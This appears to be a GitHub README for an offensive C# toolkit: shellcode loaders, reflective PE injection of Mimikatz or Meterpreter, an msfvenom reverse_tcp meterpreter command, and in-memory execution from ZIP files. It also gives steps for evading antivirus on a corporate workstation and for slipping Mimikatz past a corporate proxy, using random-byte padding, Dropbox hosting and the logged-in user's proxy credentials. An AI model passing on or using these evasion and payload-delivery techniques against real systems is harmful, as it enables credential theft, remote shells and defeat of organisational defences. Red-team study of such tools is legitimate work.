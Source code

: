 C# Scripts
============

Author: Arno0x0x - [@Arno0x0x](https://twitter.com/Arno0x0x)

This repository aims at publishing some of my C# scripts. Some are just forked/inspired from other scripts I found there and there, and I adapted to fit my needs or just to learn and improve.

Decrypt via brute force (bf), then load and execute, an xor encrypted shellcode
----------------

**bfDecryptShellcode.cs**

This script is a little dumb and probably not very useful PoC of a brute force decrypting of a multibyte XOR encrypted shellcode. Once the shellcode is decrypted, it is loaded into memory and executed.

To use it, you need two things:
1. An multibyte XOR encrypted shellcode
2. The MD5 hash of the decrypted payload which serves as a marker for knowning that the right decryption key has been found

You can obtain both by using my [ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper) project and feed it with any **raw** metasploit payload.


Dynamically load and parse a .Net assembly
----------------

**parseAssembly.cs**

This console application will dynamically load a .Net assembly (exe or dll), either from a local file or downloaded from a URL, optionnaly base64 encoded. Once loaded, it will enumerate it's types, method and properties.
Examples:
`parseAssembly.exe myAssembly.dll`
or
`parseAssembly.exe http://some.site.com/myAssembly base64`


Playing with PE and Shellcode reflective injection
----------------
This is a collection of scripts adapted from Casey Smith's ([@subTee](https://twitter.com/subTee)) work on reflectively inject PE or shellcode into the calling process, from various sources.

**peloader.cs**

This scripts loads a base64 encoded **x64** PE file (*for example: Mimikatz or a Meterpreter*) into the process's memory and reflectively executes it. The PE is passed as a base64 string variable at the beginning of the file (yes, it's hardcoded).

You can generate this base64 encoded string from any file using the following \*nix command line:
```
root@kali:~# base64 -w 0 mimikatz.exe > mimikatz.b64
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:peloader.exe peloader.cs
```

**shellcodelauncher.cs**

This script executes a shellcode into the process's memory and reflectively executes it. The shellcode is passed as an array of bytes in a variable. You can get the proper code for this array automatically generated for you with Metasloit's msfvenom utility. For example, to generate a reverse_tcp meterpreter shellcode:

```
root@kali:~# msfvenom -a x86_64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f csharp
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe shellcodeLauncher.cs
```

**runfromzipinmemory.cs**

This script is heavily and shamefully based, inspired, derived from Casey Smith (@subTee) work on Netkatz.

I found out that the local antivirus (*McAfee*) on my corporate workstation is configured to *NOT* analyze the content of a ZIP file, probably on the assumption that whenever this content is to be read or executed it would normally first be extracted somewhere on the disk, and any bad stuff in it would get caught by the AV at that time.

What this script does is loading everything in memory and work only from there, also using reflection to execute a PE from the calling process memory.

So not only the AV doesn't bark at all, but from a forensic perspective, the only "visibly running process" looks perfectly innocent.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /reference:System.IO.Compression.dll /out:runfromzipinmemory.exe runfromzipinmemory.cs
```

You can then execute:
```
unfromzipinmemory.exe <zip_file> <exe_from_zip_file_to_be_executed>
```

**netPEloader.cs**

This script is heavily based and inspired from Casey Smith (@subTee) work on Netkatz.

Netkatz is a fantastic PoC of loading the latest mimikatz release from GitHub and execute if straight in memory. However, I faced three problems in my environment:

1. The connection to the internet has to be made through a corporate proxy requiring NTLM authentication (*Windows SSO is OK*)
2. The github page of Mimikatz is blocked by the corporate proxy due to website categorization
3. The mimikatz_trunked.zip file is being detected by the proxy AV (*yes, with SSL inspection turned on at the proxy level*)

So I modified the original netkatz script to address these 3 issues:

1. Added system proxy and default credentials support (*currently logged on Windows user*)
2. Hosting the PE on a non blocked web site, innocent looking like www.dropbox.com
3. As per making the PE undetectable by AV, we could go throuth various obfuscation methods like encrypting, specific encoding, but I like the simple technique of adding 65536 random garbage bytes at the beginning of the real x64 Mimikatz PE:
	- dd if=/dev/urandom of=garbage bs=65536 count=1
	- cat garbage mimikatz.exe > mimiHidden
	- Upload mimiHidden to dropbox and share it	

The URL from where to download the hidden PE is hardcoded in the script.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:netPEloader.exe netPEloader.cs
```